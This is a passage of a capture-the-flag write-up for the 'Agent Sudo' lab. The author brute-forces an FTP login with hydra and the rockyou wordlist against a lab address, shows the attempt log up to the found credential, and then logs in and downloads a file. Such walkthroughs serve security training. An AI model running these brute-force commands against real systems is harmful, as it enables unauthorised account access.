Out of curiosity, I tried `J` as a user-agent, but that did not yield anything. However, now that we know about a user named `----s`, we should see if we can access the vsftpd FTP server on port 21. I chose to use `hydra` to attempt to brute force the server. This process went extremely slowly, unfortunately, with several disconnections from the remote host. I assume that this has to do with some form of rate limiting.

```
┌──(virtualtack㉿kali-bot)-[~/thm/agent-sudo]
└─$ hydra -t 1 -l ----s -P /usr/share/wordlists/rockyou.txt -vV 10.10.73.189 ftp
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-05-23 10:19:49
[DATA] max 1 task per 1 server, overall 1 task, 14344399 login tries (l:1/p:14344399), ~14344399 tries per task
[DATA] attacking ftp://10.10.73.189:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 10.10.73.189 - login "----s" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.73.189 - login "----s" - pass "12345" - 2 of 14344400 [child 0] (0/1)
[STATUS] 2.00 tries/min, 2 tries in 00:01h, 14344398 to do in 119536:40h, 1 active
[ATTEMPT] target 10.10.73.189 - login "----s" - pass "123456789" - 3 of 14344401 [child 0] (0/2)
[ATTEMPT] target 10.10.73.189 - login "----s" - pass "password" - 4 of 14344401 [child 0] (0/2)
[ATTEMPT] target 10.10.73.189 - login "----s" - pass "iloveyou" - 5 of 14344401 [child 0] (0/2)
[ATTEMPT] target 10.10.73.189 - login "----s" - pass "princess" - 6 of 14344401 [child 0] (0/2)
[ATTEMPT] target 10.10.73.189 - login "----s" - pass "1234567" - 7 of 14344401 [child 0] (0/2)

... 🕒 two hours later 🕒 ...

[ATTEMPT] target 10.10.73.189 - login "----s" - pass "cutie" - 243 of 14344401 [child 0] (0/2)
[ATTEMPT] target 10.10.73.189 - login "----s" - pass "james" - 244 of 14344401 [child 0] (0/2)
[ATTEMPT] target 10.10.73.189 - login "----s" - pass "banana" - 245 of 14344401 [child 0] (0/2)
[ATTEMPT] target 10.10.73.189 - login "----s" - pass "prince" - 246 of 14344401 [child 0] (0/2)
[STATUS] 7.94 tries/min, 246 tries in 00:31h, 14344155 to do in 30126:37h, 1 active
[ATTEMPT] target 10.10.73.189 - login "----s" - pass "friend" - 247 of 14344401 [child 0] (0/2)
[ATTEMPT] target 10.10.73.189 - login "----s" - pass "jesus1" - 248 of 14344401 [child 0] (0/2)
[ATTEMPT] target 10.10.73.189 - login "----s" - pass "------l" - 249 of 14344401 [child 0] (0/2)
[21][ftp] host: 10.10.73.189   login: ----s   password: ------l
[STATUS] attack finished for 10.10.73.189 (waiting for children to complete tests)

```
We test out our new credentials and discover three files on the FTP server that we can get. We download the text message first.
```
┌──(virtualtack㉿kali-bot)-[~/thm/agent-sudo]
└─$ ftp 10.10.73.189 
Connected to 10.10.73.189.
220 (vsFTPd 3.0.3)
Name (10.10.73.189:virtualtack): ----s
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||20720|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> get To_agentJ.txt
local: To_agentJ.txt remote: To_agentJ.txt
229 Entering Extended Passive Mode (|||35196|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
```